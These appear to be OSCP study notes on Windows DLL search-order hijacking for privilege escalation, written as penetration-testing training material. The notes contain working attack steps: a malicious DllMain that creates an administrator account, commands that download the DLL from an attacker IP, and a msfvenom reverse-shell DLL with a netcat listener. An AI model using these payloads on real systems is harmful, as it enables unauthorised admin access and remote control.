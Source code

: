 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/i-windows-privilege-escalation/6-dll-hijacking/"}
---
```


- Dynamic Link Libraries (DLLs) provide functionality to programs or the OS.
- They are a way for developers to use and integrate already existing functionality without reinventing the wheel.
- On Unix they are comparable to Shared Objects.
- DLLs can be abused in multiple ways for privilege escalation.
	- One way is to replace the .DLL in the same way as for service hijacking.
	- Another method is called "DLL Search Order"

DLL Search Order:
- The search order determines the order of DLLs to inspecting when searching for them. By default Safe DLL Search Mode is enabled, which makes it more difficult.
- Microsoft's standard search order:
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```
- When safe mode is disabled the current directory is at position 2 after application's directory.
- List search order using:
```powershell
$env:path  
```

One-liner to list all paths and the permissions for them (GPT):
```powershell
$env:path -split ";" | ForEach-Object { "$_"; (icacls.exe $_) | Select-String -Pattern ":\s*\([^)]+\)" }
```

Inner workings of DLLs:
- Each DLL can have an optional entry point funtion named "DllMain", which is executed when processes or threads attach the DLL.
- DllMain generally contains four cases named:
	- _DLL_PROCESS_ATTACH_
	- _DLL_THREAD_ATTACH_
	- _DLL_THREAD_DETACH_
	- _DLL_PROCESS_DETACH_
- The four cases handle situations where the DLL is loaded or unloaded by a process or thread.
- They are commonly used to perform starting or quitting tasks.
- If the DLL does not include DllMain it only provides resources.
- Example of a basic DLL in C++ containing these cases:
```c++
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
-------------

### DLL Search Order Hijacking:
1. Start procmon or other to review services and their DLLs. (Procmon has to be run as administrator on the target machine, otherwise the binary has to be copied and analysed locally)
2. Find a DLL which is missing.
3. Create a DLL in the form of a '.cpp'-file on your Kali. Example of new admin user:
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user zombie password123! /add");
  	    i = system ("net localgroup administrators zombie /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
4. Cross-compile the DLL with mingw:
```bash
x86_64-w64-mingw32-gcc <dllname>.cpp --shared -o <dllname>.dll
```
5. Serve the DLL and download it.
```powershell
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll
```
6. Move the DLL to the optimal position in the search order path using 'move'.
7. Restart the service loading the DLL:
```powershell
Restart-Service <servicename>
```
8. Win!

### DLL Reverse Shell with MSF:
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.226 LPORT=443 -a x64 --platform Windows -f dll -o EnterpriseServiceOptional.dll

nc -lvnp 443

iwr -uri http://192.168.45.226:8001/EnterpriseServiceOptional.dll -Outfile EnterpriseServiceOptional.dll

RestartService EnterpriseService
```


